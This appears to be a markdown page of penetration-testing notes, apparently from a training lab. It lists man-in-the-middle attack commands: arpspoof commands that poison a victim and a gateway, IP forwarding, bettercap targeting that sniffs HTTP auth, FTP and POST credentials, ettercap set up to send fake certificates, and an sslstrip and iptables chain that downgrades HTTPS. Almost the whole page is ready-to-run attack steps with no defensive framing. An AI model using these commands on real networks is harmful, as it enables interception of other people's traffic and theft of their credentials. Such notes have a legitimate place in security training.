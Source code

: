 #### Arpspoof
`sudo arpspoof -i tap0 -t 172.16.5.15 172.16.5.1`
`sudo arpspoof -i tap0 -t 172.16.5.1 172.16.5.15`
`echo 1 > /proc/sys/net/ipv4/ip_forward`

#### Bettercap
`bettercap -I tap0 --no-spoofing` - discovery mode
`bettercap -I tap0 -T 172.16.5.15` if gateway is identified correctly.
`bettercap -I tap0 -G 172.16.5.1 -T 172.16.5.15` if need to explicitly provide or gateway or other targets.
`bettercap -I tap0 -T 172.16.5.15 -X -P "HTTPAUTH,URL,FTP,POST"`
***
***

## Intercepting SSL traffic

##### Ettercap
To send fake certificate to user:
open `/etc/ettercap/etter.conf` and setuid and gid to 0.
In `redir _command_on/off` section uncomment both lines.


#### Ssl strip

This is used to avoid warning from browser.
[sslstrip](https://github.com/moxie0/sslstrip)

1. `echo 1 > /proc/sys/net/ipv4/ip_forward`
2. `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080`
3. `sslstrip -a -f -l 8080 -w els_salt`
4. Configure ettercap in order to mount an ARP MitM attack between victim and gateway.
5. or `bettercap -G 192.168.102.2 -T 192.168.102.138 --proxy-https`

#### sslstrip+
[sslstrip+](https://github.com/singe/sslstrip2)
[MitMF](https://github.com/byt3bl33d3r/MITMf)

`python mitmf.py -h`


![new.png](Pictures/new6.png)
